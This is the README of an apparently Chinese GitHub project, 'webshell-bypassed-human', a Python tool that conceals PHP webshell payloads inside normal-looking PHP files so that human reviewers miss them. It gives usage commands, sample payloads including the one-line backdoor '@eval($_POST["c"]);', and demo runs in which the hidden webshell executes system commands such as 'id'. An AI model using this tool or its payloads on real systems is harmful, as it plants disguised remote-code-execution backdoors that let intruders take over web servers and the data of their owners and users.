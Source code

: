# webshell-bypassed-human
见公众号文章：[传送门](https://mp.weixin.qq.com/s?__biz=MzI3OTE4MTU5Mw==&mid=2247483933&idx=1&sn=94c10672d664ae84e233792c09231a47&chksm=eb4ae26bdc3d6b7d0ffc09f9c64ac081e4e2af2d629927321d531b37a86a6333a5635fdf6a16&scene=0&xtrack=1#rd)
，或者见 fb 文章 https://www.freebuf.com/articles/web/241454.html

过人 webshell 的生成工具

```shell
» python hide_webshell.py
usage: hide_webshell.py [-h] -pf PAYLOAD_FILE [--pro] [-wf WEBSHELL_FILE]
                        [--debug]
                        php
hide_webshell.py: error: the following arguments are required: php, -pf/--payload_file
```

将 payload 放在 `-pf` 所指定的路径

## hide webshell
示例：

`python hide_webshell.py hide_webshell.py normal.php -pf payload.txt`

## hide webshell pro
示例：

`python hide_webshell.py normal_pro.php -pf payload.txt --pro`

## payload 示例
- `system("echo \"hacked by Tr0y :)\"");`
- `@eval($_POST["c"]);`

## 完整示例
```
# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:27]
» cat payload.txt
system("echo \"hacked by Tr0y :)\"");%

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:28]
» p hide_webshell.py normal.php -pf payload.txt && php webshell_hidden.php
[+] Hide webshell in normal mode
  [-] Get payload from payload.txt
      Payload is system("echo \"hacked by Tr0y :)\"");
  [-] Get php code from normal.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
hacked by Tr0y :)

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:31]
» p hide_webshell.py normal_pro.php -pf payload.txt --pro && php webshell_hidden.php
[+] Hide webshell in pro mode
  [-] Get payload from payload.txt
      Payload is system("echo \"hacked by Tr0y :)\"");
  [-] Get php code from normal_pro.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
hacked by Tr0y :)

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:23]
» cat payload.txt
@eval($_POST["c"]);%

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:24]
» p hide_webshell.py normal.php -pf payload.txt && php -r '$_POST["c"]="system(\"id\");"; require("webshell_hidden.php");'
[+] Hide webshell in normal mode
  [-] Get payload from payload.txt
      Payload is @eval($_POST["c"]);
  [-] Get php code from normal.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
uid=502(macr0phag3) gid=20(staff) groups=20(staff),12(everyone), ...此处省略

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:26]
» p hide_webshell.py normal_pro.php -pf payload.txt --pro && php -r '$_POST["c"]="system(\"id\");"; require("webshell_hidden.php");'
[+] Hide webshell in pro mode
  [-] Get payload from payload.txt
      Payload is @eval($_POST["c"]);
  [-] Get php code from normal_pro.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
uid=502(macr0phag3) gid=20(staff) groups=20(staff),12(everyone), ...此处省略
```

## 其他
<img src="https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png" width="500">

[![Stargazers over time](https://starchart.cc/Macr0phag3/webshell-bypassed-human.svg)](https://starchart.cc/Macr0phag3/webshell-bypassed-human)